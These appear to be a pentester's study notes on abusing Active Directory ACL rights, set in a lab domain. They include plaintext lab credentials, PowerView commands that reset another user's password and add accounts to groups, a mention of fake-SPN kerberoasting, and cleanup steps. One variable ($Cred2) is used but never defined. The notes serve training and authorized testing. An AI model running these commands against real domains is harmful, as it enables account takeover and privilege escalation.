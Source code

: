 1. lists that define a) who has access to which asset/resource and 
2. b) the level of access they are provisioned.
### Two types of ACLs:
1. Discretionary Access Control List (DACL): Who gets access to what
2. System access control list (SACL): ==what== gets logged

## Examples of Abuses: 
- `ForceChangePassword` abused with `Set-DomainUserPassword`
	- ==Change a users password without knowing their password!==
- `Add Members` abused with `Add-DomainGroupMember`
- `GenericAll` abused with `Set-DomainUserPassword` or `Add-DomainGroupMember`
	- ==This one is big, allowing modification of group membership, change of passwords, or kerberoasting==
- `GenericWrite` abused with `Set-DomainObject`
- `WriteOwner` abused with `Set-DomainObjectOwner`
- `WriteDACL` abused with `Add-DomainObjectACL`
- `AllExtendedRights` abused with `Set-DomainUserPassword` or `Add-DomainGroupMember`
- `Addself` abused with `Add-DomainGroupMember`


## What ACL attacks can be used for:
1. Lateral Movement
2. Privilege escalation
3. Persistence

## ACL Abuse Tactics:

wley:transporter@4
adunn:SyncMaster757

How an attack can work: 
1. Use the `wley` user to change the password for the `damundsen` user
2. Authenticate as the `damundsen` user and leverage `GenericWrite` rights to add a user that we control to the `Help Desk Level 1` group
3. Take advantage of nested group membership in the `Information Technology` group and leverage `GenericAll` rights to take control of the `adunn` user

```powershell

$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 

$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
# Save the damundsen password for later use (below)

Import-Module .\PowerView.ps1 
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword   -Credential $Cred -Verbose

Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen'         -Credential $Cred2 -Verbose
# Add damundsen to the 'Help Desk Level 1' group

```

If you need to, you can make a fake SPN so that you can kerberoast a user (perhaps the user is in use at the time and you do not want to interrupt it)

## Cleanup
In terms of cleanup, there are a few things we need to do:

1. Remove the fake SPN we created on the `adunn` user.
```powershell-session
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```
1. Remove the `damundsen` user from the `Help Desk Level 1` group
```powershell-session
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```
1. Set the password for the `damundsen` user back to its original value (if we know it) or have our client set it/alert the user